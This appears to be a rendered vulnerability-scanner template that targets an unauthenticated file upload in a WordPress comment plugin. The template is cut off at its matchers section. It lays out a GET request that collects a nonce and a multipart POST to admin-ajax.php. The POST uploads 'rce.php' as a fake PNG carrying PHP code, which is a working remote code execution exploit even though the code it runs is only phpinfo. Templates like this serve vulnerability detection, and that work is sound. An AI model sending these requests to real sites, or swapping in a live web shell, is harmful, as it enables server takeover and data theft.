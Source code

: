 ## Requests

### Step - 1

```
GET /?p=1 HTTP/1.1
Host: {{Hostname}}
Accept: */*

```

### Step - 2

```
POST /wp-admin/admin-ajax.php HTTP/1.1
Host: {{Hostname}}
X-Requested-With: XMLHttpRequest
Content-Type: multipart/form-data; boundary=----WebKitFormBoundary88AhjLimsDMHU1Ak
Origin: {{BaseURL}}
Referer: {{BaseURL}}

------WebKitFormBoundary88AhjLimsDMHU1Ak
Content-Disposition: form-data; name="action"

wmuUploadFiles
------WebKitFormBoundary88AhjLimsDMHU1Ak
Content-Disposition: form-data; name="wmu_nonce"

{{wmuSecurity}}
------WebKitFormBoundary88AhjLimsDMHU1Ak
Content-Disposition: form-data; name="wmuAttachmentsData"

undefined
------WebKitFormBoundary88AhjLimsDMHU1Ak
Content-Disposition: form-data; name="wmu_files[0]"; filename="rce.php"
Content-Type: image/png

{{base64_decode('/9j/4WpFeGlmTU0q/f39af39Pv39/f39/f39/f2o/f39/cD9/f39/f39/f39/f/g/UpGSUb9/f39/9tD/f0M/QwK/f0=')}}
<?php phpinfo();?>
------WebKitFormBoundary88AhjLimsDMHU1Ak
Content-Disposition: form-data; name="postId"

1
------WebKitFormBoundary88AhjLimsDMHU1Ak--

```

### Matchers

**Type - status**

